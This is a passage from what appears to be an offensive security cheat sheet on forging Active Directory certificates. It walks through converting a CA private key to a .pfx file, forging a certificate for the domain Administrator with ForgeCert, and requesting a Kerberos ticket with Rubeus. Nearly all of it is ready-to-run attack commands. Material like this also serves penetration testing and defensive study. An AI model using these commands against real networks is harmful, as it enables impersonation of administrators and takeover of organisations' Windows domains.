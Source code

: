 Save the private key into a `.pem` file and then convert it to `.pfx` with opeenssl.

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

> **Note** It is recommended to enter a password.

Convert `cert.pfx` into base64.

```
cat cert.pfx | base64 -w 0
```

Finally forge a certificate with `ForgeCert`.

* [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)

```powershell
.\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@corp.local" --NewCertPath fake.pfx --NewCertPassword "password"
```

> **Note**: We need to specify in `SubjectAltName` a existant user in the domain.

With the cerficiate we can ask a TGT.

```
.\Rubeus asktgt /user:Administrator /certificate:<B64-CERT> /password:password /nowrap
```
